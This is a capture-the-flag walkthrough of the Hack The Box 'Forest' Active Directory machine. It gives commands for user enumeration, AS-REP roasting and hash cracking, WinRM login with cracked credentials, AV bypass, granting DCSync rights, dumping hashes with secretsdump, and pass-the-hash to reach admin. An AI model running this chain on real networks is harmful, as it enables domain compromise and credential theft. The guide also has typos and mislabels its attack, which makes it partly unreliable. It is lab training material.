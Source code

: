 ```yaml
---
title: 'HTB - Forest'
author: paincakes
date: 2023-03-16 20:55:00 +0800
categories: [HTB, Easy]
tags: [AD, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Forest/Info.png)

# Summary
The “Forest” machine of hack the box was an easy leveled box which provided very good concept about user enumeration and Kerberoasting the users to get the Winrm shell of a user. That user can also be used to extract the data for bloodhound which reveals a misconfigured permission that can be used to give a user DCSync capabilities which can be used to dump hashes for the administrator user and get a shell as the admin.


## NMAP Scanning

Let’s start with scanning the IP with NMAP to enumerate open ports and the services running on the host.

![NMAP](https://paincakes.sirv.com/Images/HTB/Forest/nmap.png)

Looking at the nmap result, we can clearly see that this an Active Directory challenge. Before starting any further enumeration or analysis, don't forget to add '10.10.14.10 htb.local' on your hosts file. (/etc/hosts).



## Username Enumeration
Simply scanning the Host with `enum4linux` tool, I was able to obtain a list of users in the AD Network.

`enum4linux -a htb.local` 

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/enum4linux.png)
![Forest](https://paincakes.sirv.com/Images/HTB/Forest/users.png)

After obtaining the list of usernames, I filtered out the **HealthMailBox** and **SM** users for now and formatted the list in sprayable format.

![enum4linux](https://paincakes.sirv.com/Images/HTB/Forest/finalusers.png)

## Kerberoasting
Some users account does not require Kerberos pre-authentication and Kerberoasting is an attack against Kerberos for those accounts. For this attack we can use impacket’s `GetNPUuers.py` tool against the user list we just made.

`GetNPUsers.py <domain>/ -no-pass -userfile <usersfile> -dc-ip <ip> | grep -v
‘KDC_ERR_C_PRINCIPAL_UNKNOWN’`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/preauthdis.png)

From the Kerberoasting attack we were able to obtain the TGT for **svc-alfresco** user. Now we can save the TGT and crack it using `hashcat` to obtain the password.

`hashcat -m 18200 <hashfile> <wordlist>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/hashcataes.png)

After a while, `hashcat` will crack the password for **svc-alfresco** user.

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/crackedaes.png)

Now we have obtained the credentials for svc-alfresco user. (svc-alfresco : s3rvice)

## Evil-WinRM

Now since we have the complete credentials of svc-alfresco user, we can login to winrm service using `evil-winrm tool`.

`evil-winrm -u ‘svc-alfresco’ -p ‘s3rvice’ -i <ip>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/evil-winrm.png)

We can find the root flag in the Desktop directory of this user.

## Privilege Escalation

### Using BloodHound
We can use `bloodhound-python` tool to collect the data and information for `BloodHound` tool for analyzing the misconfigurations in permissions of accounts in the Active Directory. The extracted data can be uploaded in `BloodHound`. Learn more about the Tool from [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound).

After uploading the data and under “Queries”, I’ll click “Find Shorter Paths to Domain Admin”, and get the following graph:

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/bloodhound.png)

From the graph we can see that there are two jumps needed to get from my current access as **svc-alfresco** to **Adminsitrator**, who is in the Domain Admins group. One of the paths shows that the **Exchange Windows Permissions** group has **WriteDacl** privileges on the Domain. The **WriteDACL** privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them **DCSync** privileges.

### Exploiting The Excessive Privilege
 
```
net user <username> <password> /add /domain
net group “Exchange Windows Permission” <username> /add
net localgroup “Remote Management Users” <username> /add
```

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/netusers.png)

Now we need to use PowerView.ps1 and import it our current session. But before that we need to use Bypass-4MSI command to evade the AV and Defender.


![Forest](https://paincakes.sirv.com/Images/HTB/Forest/bypass.png)

### Using PowerView

Upload the `PowerView.ps1` script using the upload function in `evil-winrm` and Import it on the session. The script can be downloaded from [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

After importing the PowerView.ps1 script, we can now use the Add-ObjectACL with the user we created and give the user DCSync rights.

```
$pass = convertto-securestring ‘<password>’ -asplain -force
$cred
=
new-object
system.management.automation.pscredential(‘htb\<username>’,
$pass)
Add-ObejctACL -PrincipalIdentity <username> $cred -Rights DCSync
```

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/DCSync.png)

### Using Secretsdump
Now we gave our user the DCSync right, we can use the impacket’s secretsdump.py script as that user, which can used to will reveal the NTLM hashes for all the domain users and also the administrator.

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/DCSync.png)

Since the NTLM hash of the **Administrator** user is revealed, we can crack it to obtain the password or simply use **pass-the-hash** method using `psexec` to get the shell as admin user.

`Python psexec.py administrator@<ip> -hashes <hash>`

![Forest](https://paincakes.sirv.com/Images/HTB/Forest/root.png)

